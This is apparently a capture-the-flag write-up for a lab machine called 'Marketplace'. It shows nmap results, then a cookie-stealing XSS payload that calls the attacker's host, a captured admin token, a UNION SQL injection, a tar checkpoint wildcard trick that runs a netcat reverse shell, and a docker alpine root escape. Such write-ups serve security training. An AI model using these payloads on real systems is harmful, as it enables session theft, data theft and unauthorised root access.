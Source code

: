 # Marketplace
# Mayank Srivastava | 15 dec 2020
--------------------------------------------------

## Nmap Scan

``` #Nmap 7.91 scan initiated Tue Dec 15 16:06:17 2020 as: nmap -sC -sV -oN nmap/initial 10.10.44.16
 Nmap scan report for 10.10.44.16
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 15 16:07:40 2020 -- 1 IP address (1 host up) scanned in 82.97 seconds
```

Found xss vulnerability in both of text box

## running python3 simple http server

``` <script>var i=new Image; i.src="http://10.4.10.4:8000/?"+document.cookie;</script>```

admin token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDgwMjk3ODN9.vJ9-d2NiJld0S3a5Am7DNkxYuD-ubW_QWg0v1lX5t6g


## Sql Injection

looks like admin panel have sql vulnerability for cross check put" ' " at the end of the url

now we can inject some sql code to access the database also we can try union based sqli attack to read content from the database

/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -

## Enumeration

after found the username and the ssh password

we are on the box

sudo -l 

User jake may run the following commands on the-marketplace:
   (michael) NOPASSWD: /opt/backups/backup.sh

we can abuse tar to gain access on the machine

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.10.4 9001 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

chmod 777 /opt/backups/backup.tar

nc -nlvp 9001

get connection as michael but user michael is in docker env
we can also exploit docker env using alpine

docker image ls

``` docker run -v / :/mnt --rm -it alpine chroot /mnt sh```

after running this docker alpine we have a root shell 

